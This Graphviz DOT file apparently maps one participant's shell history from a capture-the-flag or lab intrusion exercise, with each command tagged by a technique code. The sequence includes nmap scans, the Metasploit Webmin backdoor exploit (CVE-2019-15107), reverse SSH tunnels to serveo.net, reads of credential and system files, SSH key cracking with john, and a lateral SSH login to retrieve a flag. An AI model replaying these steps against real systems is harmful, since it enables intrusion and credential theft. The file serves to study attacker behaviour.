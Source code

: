 // creating graph for user: 77
digraph {
	node [shape=box]
	0 [label="ip a U"]
	1 [label="ping .. U"]
	2 [label="ping 8.8.8.8 U"]
	3 [label="namp 172.18.1.5 -A U"]
	4 [label="nmap 172.18.1.5 -A M0 "]
	5 [label="systemctl start ssh A16 "]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	7 [label="curl 172.18.1.5:10000 U"]
	8 [label="ssh root@127.0.0.1 A16 "]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	11 [label="vim /etc/ssh/sshd_config A16 "]
	12 [label="systemctl restart ssh A16 "]
	13 [label="vim U"]
	14 [label="ll U"]
	15 [label="nmap -p 10000 -A 172.18.1.5 M0 "]
	16 [label="msfconsole M2 "]
	17 [label="search CVE-2019-15107 A3 "]
	18 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	19 [label="show A5 "]
	20 [label="show options M5 "]
	21 [label="set LHOST 172.18.1.5 M6 "]
	22 [label="show options M5 "]
	23 [label="back U"]
	24 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	25 [label="set RHOSTS 172.18.1.5 M6 "]
	26 [label="run M8 "]
	27 [label="set LPORT 6666 A6 "]
	28 [label="run M8 "]
	29 [label="set LHOST 0.0.0.0 M6 "]
	30 [label="run M8 "]
	31 [label="sessions -i U"]
	32 [label="sessions U"]
	33 [label="ip a U"]
	34 [label="show options M5 "]
	35 [label="set LHOST 192.168.130.188 M6 "]
	36 [label="set SRVHOST 192.168.130.188 A6 "]
	37 [label="run M8 "]
	38 [label="msfconsole M2 "]
	39 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	40 [label="show options M5 "]
	41 [label="set RHOSTS 172.18.1.5 M6 "]
	42 [label="run M8 "]
	43 [label="ip r U"]
	44 [label="set LHOST 10.1.135.83 M6 "]
	45 [label="run M8 "]
	46 [label="nc -l -p 7777 U"]
	47 [label="ll U"]
	48 [label="ls A10 "]
	49 [label="cd/ U"]
	50 [label="cd / U"]
	51 [label="ls A10 "]
	52 [label="cd /root U"]
	53 [label="ls A10 "]
	54 [label="ls -hlA A10 "]
	55 [label="ll U"]
	56 [label="ls A10 "]
	57 [label="ls .ssh A10 A16 "]
	58 [label="cat .ssh/autorized_keys A1 A9 A11 A12 A16 A17 "]
	59 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	60 [label="history U"]
	61 [label="ls A10 "]
	62 [label="ip a U"]
	63 [label="ps aux U"]
	64 [label="ps aux U"]
	65 [label="w U"]
	66 [label="ps aux U"]
	67 [label="ps aux  A9 A11 A12 A17 "]
	68 [label="ping 10.1.135.83 U"]
	69 [label="s U"]
	70 [label="s U"]
	71 [label="s U"]
	72 [label="s U"]
	73 [label="s U"]
	74 [label="s U"]
	75 [label="s U"]
	76 [label="s U"]
	77 [label="sss U"]
	78 [label="ls A10 "]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	80 [label="ls A10 "]
	81 [label="ip a U"]
	82 [label="nmap A0 A1 "]
	83 [label="cd /root U"]
	84 [label="ls A10 "]
	85 [label="apt udpate U"]
	86 [label="apt update U"]
	87 [label="apt install nmap A0 A1 "]
	88 [label="cat /etc/crontab] A1 A9 A11 A12 A17 "]
	89 [label="cat /etc/crontab A1 A9 A11 A12 A17 "]
	90 [label="cat /etc/cron.*/* A1 A9 A11 A12 A17 "]
	91 [label="cd / U"]
	92 [label="cd /etc U"]
	93 [label="ls -hlA A10 "]
	94 [label="ls -hlA cron* A10 "]
	95 [label="crontab -l U"]
	96 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	97 [label="cd /home U"]
	98 [label="ls A10 "]
	99 [label="ls -hlA * A10 "]
	100 [label="cd eve U"]
	101 [label="ls -hlA A10 "]
	102 [label="ls -hlA .ssh A10 A16 "]
	103 [label="cat .ssh/* A1 A9 A11 A12 A16 A17 "]
	104 [label="ls A10 "]
	105 [label="ls -hlA A10 "]
	106 [label="cd debian U"]
	107 [label="cd ../debian U"]
	108 [label="ls -hlA A10 "]
	109 [label="ls -hlA .ssh A10 A16 "]
	110 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	111 [label="cd .ansible U"]
	112 [label="ls A10 "]
	113 [label="ls -hlA A10 "]
	114 [label="cd tmp U"]
	115 [label="ls -hlA A10 "]
	116 [label="cd .. U"]
	117 [label="ls -hlA A10 "]
	118 [label="cd .. U"]
	119 [label="ls -hlA A10 "]
	120 [label="cat * A1 A9 A11 A12 A17 "]
	121 [label="cat .* A1 A9 A11 A12 A17 "]
	122 [label="ls -hlA A10 "]
	123 [label="cd .. U"]
	124 [label="ls -hlA A10 "]
	125 [label="ls -hlA * A10 "]
	126 [label="cd eve U"]
	127 [label="cat .bash_history M11 "]
	128 [label="ls -hlA A10 "]
	129 [label="nmap A0 A1 "]
	130 [label="ls -hlA A10 "]
	131 [label="cat .bash_history M11 "]
	132 [label="su eve U"]
	133 [label="ls -hlA A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="exit U"]
	136 [label="ls A10 "]
	137 [label="ls -hlA A10 "]
	138 [label="cp .ssh/* /root/.ssh/ A16 "]
	139 [label="cd U"]
	140 [label="ls -hlA .ssh A10 A16 "]
	141 [label="cd /home/eve U"]
	142 [label="ls -hlA A10 "]
	143 [label="cat .bash_history M11 "]
	144 [label="ls -hlA A10 "]
	145 [label="ls -hlA /tmp A10 "]
	146 [label="alias ll='ls -hlA' A10 "]
	147 [label="ll U"]
	148 [label="cd .. U"]
	149 [label="ll U"]
	150 [label="ll * U"]
	151 [label="cd .. U"]
	152 [label="ll U"]
	153 [label="ll root U"]
	154 [label="cat root/.bash_history M11 "]
	155 [label="ll U"]
	156 [label="cd /var/ U"]
	157 [label="ll U"]
	158 [label="cd webmin U"]
	159 [label="ll U"]
	160 [label="cd .. U"]
	161 [label="cd .. U"]
	162 [label="ll U"]
	163 [label="ll media U"]
	164 [label="ll opt U"]
	165 [label="ll srv U"]
	166 [label="cd var U"]
	167 [label="ll U"]
	168 [label="cd log U"]
	169 [label="ll U"]
	170 [label="cat syslog A1 A9 A11 A12 A17 "]
	171 [label="ll U"]
	172 [label="zcat syslog.1 A1 A9 A11 A12 A17 "]
	173 [label="cat syslog.1 A1 A9 A11 A12 A17 "]
	174 [label="cd /etc/ansible U"]
	175 [label="cd /etc U"]
	176 [label="ll U"]
	177 [label="ll ssh A16 "]
	178 [label="ll U"]
	179 [label="cat sudoers A1 A9 A11 A12 A17 "]
	180 [label="cd U"]
	181 [label="ll U"]
	182 [label="ll U"]
	183 [label="alias ll='ls -hlA' A10 "]
	184 [label="ll U"]
	185 [label="ll U"]
	186 [label="cd U"]
	187 [label="ll U"]
	188 [label="cd .ssh A16 "]
	189 [label="ll U"]
	190 [label="cat id_rsa M12 "]
	191 [label="ll U"]
	192 [label="alias ll='ls -hlA' A10 "]
	193 [label="ll U"]
	194 [label="cd Desktop/ U"]
	195 [label="ll U"]
	196 [label="vim id_rsa U"]
	197 [label="gpg2john id_rsa A14 "]
	198 [label="apt install ssh2john A14 A16 "]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py M8 "]
	200 [label="chmod +x ssh2john.py A14 A15 A16 "]
	201 [label="./ssh2john.py id_rsa A14 A16 "]
	202 [label="./ssh2john.py id_rsa > x A14 A16 "]
	203 [label="ll U"]
	204 [label="ll /usr/share/wordlists/rockyou.txt U"]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x M14 "]
	206 [label="ll U"]
	207 [label="ll U"]
	208 [label="cd .. U"]
	209 [label="cat /home/eve/.bash_history M11 "]
	210 [label="ssh eve@10.1.17.4 M16 "]
	211 [label="ls -hlA A10 "]
	212 [label="alias ll='ls -hlA' A10 "]
	213 [label="cd /tmp U"]
	214 [label="ll U"]
	215 [label="ll U"]
	216 [label="cd U"]
	217 [label="history U"]
	218 [label="cat /home/eve/.bash_history M11 "]
	219 [label="ssh eve@10.1.17.4 M16 "]
	220 [label="alias ll='ls -hlA' A10 "]
	221 [label="ll U"]
	222 [label="cd top-secret U"]
	223 [label="ll U"]
	224 [label="cat flag.txt M17 "]
	225 [label="ll U"]
	226 [label="cd .. U"]
	227 [label="ll U"]
	228 [label="uname -a U"]
	229 [label="sudo -l U"]
	230 [label="ll U"]
	231 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	232 [label="w U"]
	233 [label="ll U"]
	234 [label="ll top-secret/ U"]
	235 [label="cat top-secret/flag.txt M17 "]
	236 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	237 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	238 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	239 [label="ll U"]
	240 [label="cd / U"]
	241 [label="ll U"]
	242 [label="w U"]
	243 [label="ll opt U"]
	244 [label="ll srv/ U"]
	245 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	246 [label="cat /etc/cron* A1 A9 A11 A12 A17 "]
	247 [label="ll /tmp/cron* U"]
	248 [label="ll /etc/cron* U"]
	249 [label="ll U"]
	250 [label="ip a U"]
	251 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	252 [label="ll U"]
	253 [label="uname -a U"]
	254 [label="cat /etc/api/sources.list A1 A9 A11 A12 A17 "]
	255 [label="cat /etc/apt/sources.list A1 A9 A11 A12 A17 "]
	256 [label="ll U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	rankdir=LR
}
